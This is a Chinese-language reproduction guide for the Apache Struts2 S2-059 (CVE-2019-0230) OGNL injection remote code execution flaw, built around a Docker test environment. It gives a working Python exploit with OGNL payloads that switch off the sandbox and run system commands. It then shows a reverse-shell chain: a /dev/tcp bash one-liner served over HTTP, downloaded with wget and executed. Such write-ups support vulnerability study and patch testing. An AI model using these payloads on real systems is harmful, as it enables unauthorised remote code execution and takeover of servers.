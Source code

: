 # Struts2 S2-059 远程代码执行漏洞 CVE-2019-0230

## 漏洞描述

Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的OGNL表达式，造成OGNL表达式注入。从而可能造成远程执行代码。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞影响

影响版本: Struts 2.0.0 - Struts 2.5.20

## 环境搭建

Vulhub执行以下命令启动Struts 2.5.16 s2-059测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境之后访问`http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现233*233的结果被解析到了id属性中：

![image-20220302135315508](images/202203021353597.png)

《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过struts2.5.16版本的沙盒的poc，利用这个poc可以达到执行系统命令。

通过如下Python脚本复现漏洞：

```python
import requests

url = "http://192.168.174.128:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/awesome_poc'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行poc之后，进入容器发现`touch /tmp/awesome_poc`已成功执行。

![image-20220302135633547](images/202203021356602.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行shell.sh文件的命令为：

```
bash shell.sh
```

成功接收反弹shell：

![image-20220302135809119](images/202203021358216.png)
